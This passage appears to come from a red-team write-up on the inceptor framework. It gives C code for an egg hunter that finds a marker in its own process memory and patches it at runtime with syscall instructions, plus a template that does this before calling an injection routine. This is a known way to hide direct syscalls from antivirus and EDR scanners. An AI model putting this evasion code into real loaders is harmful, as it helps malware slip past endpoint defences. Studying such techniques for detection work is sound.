 ```c

    ULONG64 currentOffset = 0;

    unsigned char* current = (unsigned char*)malloc(8*sizeof(unsigned char*));
    size_t nBytesRead;

    printf("Starting search from: 0x%llu\n", (ULONG64)startAddress + currentOffset);

    while (currentOffset < size - 8)
    {
        currentOffset++;
        LPVOID currentAddress = (LPVOID)(startAddress + currentOffset);
        if(DEBUG > 0){
            printf("Searching at 0x%llu\n", (ULONG64)currentAddress);
        }
        if (!ReadProcessMemory((HANDLE)((int)-1), currentAddress, current, 8, &nBytesRead)) {
            printf("[-] Error reading from memory\n");
            exit(1);
        }
        if (nBytesRead != 8) {
            printf("[-] Error reading from memory\n");
            continue;
        }

        if(DEBUG > 0){
            for (int i = 0; i < nBytesRead; i++){
                printf("%02x ", current[i]);
            }
            printf("\n");
        }

        if (memcmp(egg, current, 8) == 0)
        {
            printf("Found at %llu\n", (ULONG64)currentAddress);
            WriteProcessMemory((HANDLE)((int)-1), currentAddress, replace, 8, &nBytesRead);
        }

    }
    printf("Ended search at:   0x%llu\n", (ULONG64)startAddress + currentOffset);
    free(current);
}
```

Within an inceptor template, then, we can simply do something like this:

```c
int main(int argc, char** argv) {

    unsigned char egg[] = { 0x77, 0x00, 0x00, 0x74, 0x77, 0x00, 0x00, 0x74 }; // w00tw00t
    unsigned char replace[] = { 0x0f, 0x05, 0x90, 0x90, 0xC3, 0x90, 0xCC, 0xCC }; // syscall; nop; nop; ret; nop; int3; int3

    //####SELF_TAMPERING####
    (egg, replace);

    Inject();
    return 0;
}
```


[1]: https://github.com/klezVirus/inceptor.git
[2]: https://twitter.com/Cn33liz
[3]: https://twitter.com/aionescu
[4]: https://mobile.twitter.com/elephantse4l
[5]: https://mobile.twitter.com/CaptMeelo
[6]: https://twitter.com/modexpblog
[7]: https://twitter.com/s4ntiago_p
[8]: https://github.com/jthuraisamy/SysWhispers2
[9]: https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html
[11]: https://github.com/klezVirus/inceptor/blob/main/slides/Inceptor%20-%20Bypass%20AV-EDR%20solutions%20combining%20well%20known%20techniques.pdf
[12]: https://www.ired.team/offensive-security/code-injection-process-injection/how-to-hook-windows-api-using-c++